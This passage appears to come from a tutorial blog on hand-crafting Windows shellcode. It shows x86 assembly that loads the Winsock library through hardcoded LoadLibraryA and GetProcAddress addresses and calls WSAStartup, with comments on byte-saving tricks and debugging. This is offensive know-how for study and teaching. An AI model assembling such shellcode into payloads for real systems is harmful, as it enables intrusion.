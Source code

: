 Interesting, they reduce a few bytes by using the version as the same value of the size of WSAData. Lets assemble/link this code and debug it:

~~~
global _start

section .text

_start:

.loadWinSock:
	xor eax, eax

	mov ax, 0x3233			;23
	push eax				;includes \0 at the end without insert NULLs
	push 0x5f327377 		;_2sw
	push esp			;pointer to the string

	mov ebx, 0x7c801d7b		;0x7b1d807c  	;addr of LoadLibraryA (0x7c801d7b)
	call ebx

	mov ebp, eax			;save winsock handle

.getWSAStartup:
	xor eax, eax

	mov ax, 0x7075      ; 'pu'
	push eax
	push 0x74726174     ; 'trat'
	push 0x53415357     ; 'SASW'
	push esp	    ;pointer to the string

	push ebp	    ;winsock handler
	
	mov ebx, 0x7c80ae40 ;addr of GetProcAddress
	call ebx

.callWSAStartUp:
	mov ebx, 0x0190        ; EAX = sizeof( struct WSAData )
	sub esp, ebx           ; alloc some space for the WSAData structure
	push esp               ; push a pointer to this stuct
	push ebx               ; push the wVersionRequested parameter
	
	call eax
~~~

Notice we changed `eax` to `ebx` since we have saved `WSAStartup`'s address in the first register.

![2-dbg4]({{ "/assets/media/manualshellcode/shellcode_dbg5.png" | absolute_url }})

It seems to be working fine too, even though they used a `wVersionRequired` way above `2.2`. If we read the *Remarks* section from the documentation more carefully we figure out the reason why:
